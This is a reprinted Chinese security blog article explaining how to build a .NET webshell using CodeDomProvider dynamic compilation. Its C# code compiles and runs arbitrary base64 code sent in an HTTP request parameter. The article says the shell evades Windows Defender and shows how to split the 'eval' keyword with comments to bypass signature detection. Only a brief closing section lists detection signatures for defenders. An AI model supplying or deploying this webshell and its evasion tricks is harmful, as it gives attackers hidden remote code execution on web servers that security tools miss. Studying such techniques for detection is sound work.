 ```yaml
---
title: 基于.NET动态编译技术实现任意代码执行
slug: be-based-on-dotNet-dynamic-compilation-technology-to-realize-arbitrary-code-execution
description: .Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类
date: 2022-05-15 23:15:14
copyright: Reprint
author: Ivan1ee dotNet安全矩阵
originaltitle: 基于.NET动态编译技术实现任意代码执行
originallink: https://mp.weixin.qq.com/s/eZgnxEihQu-KULLeLJatCw
draft: False
cover: https://img1.dotnet9.com/2022/05/cover44.gif
categories: .NET相关
---
```


![](https://img1.dotnet9.com/2022/05/cover44.gif)

## 一、前言

当下主流的Waf或Windows Defender等终端杀软、EDR大多都是从特征码查杀，在.Net和VBS下一句话木马中最常见的特征是eval，对于攻击者来说需要避开这个系统关键字，可从反序列化方式避开eval，但公开已久相信很多安全产品已经能够很好检测和阻断这类攻击请求。笔者从.NET 内置的CodeDomProvider类下手实现动态编译.NET代码，指明JScrip或者C#作为编译语言，编译的WebShell目前`Windows Defender不会查杀`。而防御者从流量或终端识别 "CodeDomProvider.CreateProvider、CreateInstance"等特征码。

## 二、动态编译

.Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类`CodeDomProvider` 和 `CompilerParameters`，前者相当于编译器，后者相当于编译器参数，CodeDomProvider支持多种语言（如C#、VB、Jscript），编译器参数CompilerParameters.GenerateExecutable默认表示生成dll，`GenerateInMemory= true`时表示在内存中加载，CompileAssemblyFromSource表示程序集的数据源，再将编译产生的结果生成程序集供反射调用。最后通过CreateInstance实例化对象并反射调用自定义类中的方法。

```csharp
CodeDomProvider compiler = CodeDomProvider.CreateProvider("C#"); ;     //编译器
CompilerParameters comPara = new CompilerParameters();   //编译器参数
comPara.ReferencedAssemblies.Add("System.dll"); //添加引用
comPara.GenerateExecutable = false; //生成exe
comPara.GenerateInMemory = true; //内存中
CompilerResults compilerResults = compiler.CompileAssemblyFromSource(comPara, SourceText(txt)); //编译数据的来源
Assembly objAssembly = compilerResults.CompiledAssembly; //编译成程序集
object objInstance = objAssembly.CreateInstance("Neteye.NeteyeInput"); //创建对象
MethodInfo objMifo = objInstance.GetType().GetMethod("OutPut"); //反射调用方法
var result = objMifo.Invoke(objInstance, null);
```

## 三、落地实现

上述代码里的SourceText方法需提供编译的C#源代码，笔者创建了NeteyeInput类，如下

```csharp
public static string SourceText(string txt)
{
    StringBuilder sb = new StringBuilder();
    sb.Append("using System;");
    sb.Append(Environment.NewLine);
    sb.Append("namespace  Neteye");
    sb.Append(Environment.NewLine);
    sb.Append("{");
    sb.Append(Environment.NewLine);
    sb.Append("    public class NeteyeInput");
    sb.Append(Environment.NewLine);
    sb.Append("    {");
    sb.Append(Environment.NewLine);
    sb.Append("        public void OutPut()");
    sb.Append(Environment.NewLine);
    sb.Append("        {");
    sb.Append(Environment.NewLine);
    sb.Append(Encoding.GetEncoding("UTF-8").GetString(Convert.FromBase64String(txt)));
    sb.Append(Environment.NewLine);
    sb.Append("        }");
    sb.Append(Environment.NewLine);
    sb.Append("    }");
    sb.Append(Environment.NewLine);
    sb.Append("}");
    string code = sb.ToString();
    return code;
}
```

类里声明了OutPut方法，该方法里通过Base64解码得到输入的原生字符串，笔者在这里以计算器作为演示，将`“System.Diagnostics.Process.Start("cmd.exe","/c calc");”`编码为

```shell
U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
```

最后在一般处理程序ProcessRequest方法中调用

```csharp
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    if (!string.IsNullOrEmpty(context.Request["txt"]))
    {
        DynamicCodeExecute(context.Request["txt"]); //start calc: U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
        context.Response.Write("Execute Status: Success!");
    }
    else
    {
        context.Response.Write("Just For Fun, Please Input txt!");
    }
}
```

![](https://img1.dotnet9.com/2022/05/4401.png)

## 四、其他方法

Jscript.Net 动态编译拆解eval

在.NET安全领域中一句话木马主流的都是交给eval关键词执行，而很多安全产品都会对此重点查杀，所以笔者需要`避开eval`，而在.NET中eval只存在于Jscript.Net，所以需要将动态编译器指定为Jscript，其余和C#版本的动态编译基本一致，笔者通过插入无关字符将eval拆解掉，代码如下

```csharp
private static readonly string _jscriptClassText =
        @"import System;
            class JScriptRun
            {
                public static function RunExp(expression : String) : String
                {
                    return e/*@Ivan1ee@*/v/*@Ivan1ee@*/a/*@Ivan1ee@*/l(expression);
                }
            }";
```

只需在编译的时候替换掉无关字符串“/*@Ivan1ee@*/”，最后编译后反射执行目标方法。

```csharp
CompilerResults results = compiler.CompileAssemblyFromSource(parameters, _jscriptClassText.Replace("/*@Ivan1ee@*/",""));
```

## 五、防御措施

- 一般web应用使用场景不多，检测特征码：CodeDomProvider.CreateProvider、CreateInstance等等，一旦告警需格外关注；

- 由于编译生成的程序集以临时文件保存在硬盘，需加入对可写目录下dll文件内容的监控；

- 文章涉及的代码已经打包在: [https://github.com/Ivan1ee/.NETWebShell](https://github.com/Ivan1ee/.NETWebShell)